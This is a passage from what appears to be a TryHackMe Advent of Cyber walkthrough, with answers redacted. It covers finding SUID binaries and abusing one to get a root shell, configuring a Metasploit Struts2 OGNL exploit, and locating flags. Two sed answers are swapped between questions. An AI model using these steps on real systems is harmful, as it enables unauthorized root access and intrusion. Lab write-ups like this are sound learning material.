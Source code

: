 	<redacted>

#### 3. Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?
	
	find / -user igor -perm -4000 -exec ls -ldb {} \;
	in most cases, you have to go throgh all binaries or look for suspicious one which in this case is system-control
	run it and it ask for user input to run a command if we run whoami it returns root we can use to cat our flag2 or spawn a root shell by giving it /bin/bash as input

	<redacted>

#### 4. If you've finished the challenge and want more practise, checkout the Privilege Escalation Playground room created by SherlockSec: https://tryhackme.com/room/privescplayground
	
	No answer needed

## Day 9 : Requests
#### 1. What is the value of the flag?
	
	sCrIP<redacted>

## Day 10 : Metasploit-a-ho-ho-ho

	exploit(multi/http/struts2_content_type_ognl) > set TARGETURI showcase.action

#### 1. Compromise the web server using Metasploit. What is flag1?
	
	find / 2>>/dev/null | grep -i "flag"
	<redacted>

#### 2. Now you've compromised the web server, get onto the main system. What is Santa's SSH password?
	
	santa:<redacted>

#### 3. Who is on line 148 of the naughty list?
	
	sed '52!d' nice_list.txt 
	<redacted>

#### 4. Who is on line 52 of the nice list?
	
	sed '148!d' naughty_list.txt
	<redacted>

## Day 11 : Elf Applications 
#### 1 	What is the password inside the creds.txt file?
